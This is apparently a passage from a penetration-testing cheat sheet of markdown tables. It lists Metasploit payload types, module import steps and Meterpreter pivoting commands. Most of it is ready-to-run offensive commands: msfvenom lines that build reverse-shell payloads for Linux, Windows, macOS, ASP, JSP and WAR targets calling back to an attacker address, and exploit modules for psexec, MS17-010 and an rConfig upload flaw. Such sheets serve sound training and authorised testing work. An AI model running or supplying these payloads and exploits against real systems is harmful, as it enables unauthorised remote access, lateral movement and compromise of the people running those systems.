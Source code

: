 | windows/x64/meterpreter/$         | Meterpreter payload + varieties above                                  |
| windows/x64/powershell/$          | Interactive PowerShell sessions + varieties above                      |
| windows/x64/vncinject/$           | VNC Server (Reflective Injection) + varieties above                    |

***

## **Importing External Exploits into MSFConsole**

> The default directory where all the modules, scripts, plugins, and `msfconsole` proprietary files are stored is `/usr/share/metasploit-framework`\
> Alternatively, you can use the folder `/home/username/.msf4`\
> To import a module, you just need to copy it in one of the previous folders and use the `reload_all` command.\
> Alternatively, you can load a module at runtime by using `loadpath /usr/share/metasploit-framework/modules/`\
>

***

## **Meterpreter Pivoting**

| Command                                       | Description                                                                                                                     |
| --------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------- |
| portfwd add -R -l 8443 -p 1234 -L 10.10.14.15 | Set up a local port forwarding rule to forward all traffic destined to port 1234 on 10.10.14.15 to port 8443 on our attack host |
| run autoroute -s 172.16.9.0/23                | set up a route to the 172.16.9.0/23 subnet                                                                                      |

***

## **Msfconsole & Msfvenom**

| Commands                                                                                          | Description                                                                                                                 |
| ------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------- |
| use exploit/windows/smb/psexec                                                                    | Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing smb & psexec |
| shell                                                                                             | Command used in a meterpreter shell session to drop into a system shell                                                     |
| msfvenom -p linux/x64/shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf    | MSFvenom command used to generate a linux-based reverse shell stageless payload                                             |
| msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe      | MSFvenom command used to generate a Windows-based reverse shell stageless payload                                           |
| msfvenom -p osx/x86/shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho  | MSFvenom command used to generate a MacOS-based reverse shell payload                                                       |
| msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp | MSFvenom command used to generate a ASP web reverse shell payload                                                           |
| msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp    | MSFvenom command used to generate a JSP web reverse shell payload                                                           |
| msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war    | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload                                       |
| use auxiliary/scanner/smb/smb\_ms17\_010                                                          | Metasploit exploit module used to check if a host is vulnerable to ms17\_010                                                |
| use exploit/windows/smb/ms17\_010\_psexec                                                         | Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17\_010    |
| use exploit/linux/http/rconfig\_vendors\_auth\_file\_upload\_rce                                  | Metasploit exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting rConfig 3.9.6     |
